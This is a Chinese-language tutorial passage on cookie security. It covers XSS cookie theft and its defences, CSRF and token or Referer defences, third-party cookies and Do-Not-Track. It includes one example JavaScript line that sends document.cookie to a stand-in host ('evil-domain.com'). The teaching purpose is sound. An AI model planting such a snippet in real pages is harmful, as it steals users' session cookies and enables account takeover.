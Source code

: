 在 Web 应用中，Cookie 常用来标记用户或授权会话。因此，如果 Web 应用的 Cookie 被窃取，可能导致授权用户的会话受到攻击。常用的窃取 Cookie 的方法就是利用应用程序漏洞进行 XSS 攻击。

xss（由于 cross 有十字架的意思故常用 x 形象地代替 cross 缩写）是一种网站应用程序的安全漏洞攻击，是代码注入的一种。它允许恶意用户将代码注入到网页上，其他用户使用被注入的网页后，用户信息等被注入的代码获取，并发送给第三方。这类攻击通常包含了 HTML 以及用户端脚本语言。

xss 的防范

1. 服务端 set-cookie 响应头使用 HttpOnly，防止被 js 获取

2. 对用户的任何输入都进行检查与转义

3. 服务端输出的模板也应用编码与转义防御 xss 攻击

```javascript
new Image().src =
  "http://www.evil-domain.com/steal-cookie.php?cookie=" + document.cookie;
```

HttpOnly 类型的 Cookie 由于阻止了 JavaScript 对其的访问性而能在一定程度上缓解此类攻击。

#### 跨站请求伪造 CSRF （cross site request forgery）

也常被称为 XSRF，是一种冒充用户发起请求，执行非用户本意操作的攻击方法。

攻击者借用户的 Cookie 骗取服务器信任，在用户不知情的情况下，以用户身份伪造请求发送给服务器，执行需要权限的操作。

CSRF 的防范：

1. 使用验证码，验证码保证了请求是在用户交互的情况下完成的请求。

2. Referer Check，HTTP 头中有一个属性是 Referer，它记录了 HTTP 请求的来源地址，服务端通过 Referer Check，可以检查请求是否来自合法的“源”。Referer Check 还可以用来做图片防盗链。

3. 添加 token 验证。在请求中加入一个攻击者无法伪造且不存在于 Cookie 的 token，在服务端建立一个拦截器来验证 token，只有 token 正确才被认为是真实的请求。

### 追踪和隐私

#### 第三方 Cookie

每个 Cookie 都会有与之关联的域（Domain），如果 Cookie 的域和页面的域相同，那么我们称这个 Cookie 为第一方 Cookie（first-party cookie），如果 Cookie 的域和页面的域不同，则称之为第三方 Cookie（third-party cookie）。一个页面包含图片或存放在其他域上的资源（如图片广告）时，第一方的 Cookie 也只会发送给设置它们的服务器。通过第三方组件发送的第三方 Cookie 主要用于广告和网络追踪。大多数浏览器默认都允许第三方 Cookie，但可以通过设置来阻止第三方 Cookie。

如果你没有公开你网站上第三方 Cookie 的使用情况，当被用户发觉时，你网站的受信任程度可能会受到影响。一个清晰的声明（如在隐私策略里提及）能够减少或消除这些负面影响。在一些国家已经开始对 Cookie 制订相应的法规。

#### 禁止追踪 Do-Not-Track

虽然没有法律或技术手段强制要求使用 DNT，但是通过 DNT 请求头可以告诉 Web 程序不要对用户行为进行追踪或者跨站追踪。

```txt
DNT: 0 //表示用户愿意目标站点追踪用户个人信息
DNT: 1 //表示用户不愿意目标站点追踪用户个人信息
```

使用 JavaScript 读取 DNT 状态

```javascript
navigator.doNotTrack; // "0" or "1"
```
